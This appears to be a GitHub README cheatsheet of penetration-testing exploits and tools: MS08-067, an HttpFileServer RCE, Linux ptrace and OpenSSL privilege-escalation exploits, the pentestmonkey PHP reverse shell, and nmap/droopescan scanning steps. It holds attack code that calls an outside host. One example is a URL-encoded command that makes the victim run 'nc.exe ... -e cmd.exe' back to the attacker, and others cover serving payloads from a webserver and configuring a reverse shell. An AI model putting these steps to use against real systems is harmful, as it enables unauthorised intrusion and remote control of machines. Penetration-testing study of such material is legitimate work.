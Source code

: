 # Exploits/Tools/Cheatsheets
 

### Windows Exploits
<details><summary>MS08-067 Python Remote Exploit</summary>
<p>

(https://www.exploit-db.com/exploits/40279)
edit `shellcode` variable with payload and adjusts NOPS to fit it

</p>
</details>

<details><summary>HttpFileServer 2.3.x RCE</summary>
<p>

Upload nc.exe into victim machine and performs a reverse shell using nc.exe
```python
	#change these to your webserver for uploading nc.exe
	ip_addr = "192.168.1.20" 
	local_port = "80" 
	#file will be uploaded to and run from C:\Users\Public, change ip and port here to catch your reverse shell
	vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20192.168.1.10%20443%20-e%20cmd.exe"
```
</p>
</details>

### Linux Exploits
<details><summary>Linux Kernel 2.2-4 PrivEsc (ptrace-kmod)</summary>
<p>

(https://www.exploit-db.com/exploits/3)
Works for 2.2.x and 2.4.x kernels.
```c
// include <linux/user.h> <---remove this
// add below 
#include <sys/user.h>
#include <sys/reg.h>
```
</p>
</details>

<details><summary>Mod SSL 2.8.7 OpenSSL Exploit (openfartV2.c)</summary>
<p>

(https://www.exploit-db.com/exploits/764)
commented out `#COMMAND2` variable out to download. Can be used seperately with ptrace-kmod for PrivEsc.
Usage:
1. compile code
`gcc -o openfuck openfuckV2.c -lcrypto`
_if you encounter missing ld error while compiling at victim machine, try checking PATH and make sure it is pointing to the 'ld' file_

2. In your ptrace-kmod.c directory start webserver
`python -m SimpleHTTPServer 80`
</p>
</details>


### Other Exploits
<details><summary>PHP Reverse Shell (pentest monkey)</summary>
<p>

(http://pentestmonkey.net/tools/web-shells/php-reverse-shell)
Works like a charm in linux php LFI situations better than `system('<reverse shell bash code>');`
1. modify code
```c
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```
2. start listener to catch reverse shell
3. upload and run script
</p>
</details>


### Tools
<details><summary>Onetwopunch - wrapper for unicorn and nmap scan</summary>
<p>

(https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh) 
Scan for port using nicornscan (very fast) and chain it with nmap vuln nse script scan
1. ping sweep for online hosts into list
`nmap -v -sn 10.11.1-254 -oG all-hosts.txt`
`grep Up all-hosts.txt > online.hosts.txt`

2. download onetwopunch script
`wget https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh`
 
3. run script with nmap -sV option
`./scripts/onetwopunch.sh -t online-hosts.txt -p all -i tap0 -n -sV`
 
4. Once complete, navigate to output folder "ndir". Use command to formats all .xml output to html
`for x in $(ls *.xml); do filename=$(echo $x | sed 's/xml/html/') && xsltproc $x -o $filename; done`
`wget https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh`
`./scripts/onetwopunch.sh -t online-hosts.txt -p all -i tap0 -n -sV`

5. Navigate to output folder "ndir" and formats all .xml output to html
`for x in $(ls *.xml); do filename=$(echo $x | sed 's/xml/html/') && xsltproc $x -o $filename; done`
</p>
</details>

<details><summary>Droopescan - drupal scanner</summary>
<p>
	
(https://github.com/droope/droopescan)
```
git clone https://github.com/droope/droopescan.git
cd droopescan
pip install -r requirements.txt
droopescan scan drupal -u http://10.11.1.49
```
</p>
</details>



